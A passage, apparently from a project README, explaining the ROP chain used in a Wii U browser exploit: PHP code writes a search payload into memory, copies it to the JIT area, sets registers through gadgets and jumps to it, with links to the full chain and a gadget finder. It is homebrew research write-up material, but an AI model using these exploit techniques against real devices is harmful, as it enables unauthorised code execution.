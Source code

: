 ```
// Write our small search payload somewhere into mem
ropgen_writerop_toAddress($wiiuhaxxcfg_searchpayloadfilepath,$payload_tmp_address);

// Copy it to codegen/jit area
ropgen_copycodebin_to_codegen($codegen_addr, $payload_tmp_address, $search_payload_length);

// Set up some parameters
$regs = array();
$regs[24 - 24] = $ROP_OSFatal;//r24
$regs[25 - 24] = $ROP_Exit;//r25
$regs[26 - 24] = $payload_size;//r26 sizeToCopy
$regs[27 - 24] = $payload_search_for - 0x04;// r27 SearchFor. substract 0x4 so we didn't find THIS accidentally.
$regs[28 - 24] = $payload_start_search;  //r28 start of search
$regs[29 - 24] = $valid_payload_dst_address ; //r29 target address
$regs[30 - 24] = 0x8;//r30 The payload can do this at entry to determine the start address of the code-loading ROP-chain: r1+= r30. r1+4 after that is where the jump-addr should be loaded from. The above r29 is a ptr to the input data used for payload loading.
$regs[31 - 24] = $ROPHEAP;//r31    
ropgen_pop_r24_to_r31($regs);//Setup r24..r31 at the time of payload entry. Basically a "paramblk" in the form of registers, since this is the only available way to do this with the ROP-gadgets currently used by this codebase.

// And run it!
ropchain_appendu32($codegen_addr); //Jump to the codegen area where the payload was written.
```

The actual implementation can be found [here](https://github.com/wiiu-env/wiiuhaxx_common/blob/master/wiiuhaxx_searcher.s).
Afterwards the "real" payload can be copied from the pre-defined address to the JIT-Area, where it can be executed from. See:

```
// On success, we should now have our actual payload @valid_payload_dst_address. Lets copy it to codegen.
ropgen_copycodebin_to_codegen($codegen_addr, $valid_payload_dst_address, $payload_size);
// and run it!
ropchain_appendu32($codegen_addr);
```

The full ROP-Chain used in this implementation can be found [here](https://github.com/wiiu-env/wiiuhaxx_common/blob/master/wiiu_browserhax_common.php#L533).

In addition, a new plattform independent [rop-gadget-finder](https://github.com/wiiu-env/RPXGadgetFinder) has been implemented in Java, which is used to the address of gadgets in system libraries either by a binany pattern or function name. 
This new finder uses [YAML](https://en.wikipedia.org/wiki/YAML) files to specify which gadgets should be searched. An example config for gadgets of the coreinit.rpl can be found [here](https://github.com/wiiu-env/wiiuhaxx_common/blob/master/coreinit.yml). This 

# Browser exploit payload
